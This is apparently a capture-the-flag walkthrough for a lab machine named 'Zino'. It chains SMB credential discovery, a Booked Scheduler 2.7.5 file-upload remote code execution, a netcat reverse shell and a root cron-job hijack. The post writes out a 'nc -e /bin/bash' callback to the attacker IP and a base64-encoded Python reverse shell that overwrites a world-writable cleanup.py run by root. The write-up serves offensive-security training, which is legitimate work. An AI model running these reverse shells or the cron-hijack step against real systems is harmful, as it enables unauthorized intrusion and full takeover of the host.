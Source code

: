 # Zino

### Enumeration

```
...
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
8003/tcp open  http        Apache httpd 2.4.38
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
...
```

```
$ smbmap -H 192.168.210.64
$ smbclient \\\\192.168.210.64\\zino
misc.log -> admin:[REDACTED]
```

### Initial Access

Login with that credential. -> [http://192.168.210.64:8003/booked/](http://192.168.210.64:8003/booked/)

admin: \[REDACTED]

**Booked Scheduler 2.7.5 - Remote Command Execution Without Metasploit - **

https://github.com/F-Masood/Booked-Scheduler-2.7.5---RCE-Without-MSF

> Navigate to manage\_theme.php page.
>
> Under Favicon section, upload your malicious php script e.g. I am uploading a file rce.php.
>
> Navigate to http://192.168.210.64:8003/booked/Web/custom-favicon.php

[https://www.revshells.com/](https://www.revshells.com) - PHP Cmd

I used php cmd shell. I executed this command:

```
nc -e /bin/bash 192.168.49.210 22
```

### PrivEsc

```
$ cat /etc/crontab
...
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py

-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py
```

**Base64 Encoded:** `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.210",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")`

```
echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNDkuMjEwIiwyMikpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vYmFzaCIp | base64 -d > /var/www/html/booked/cleanup.py
```
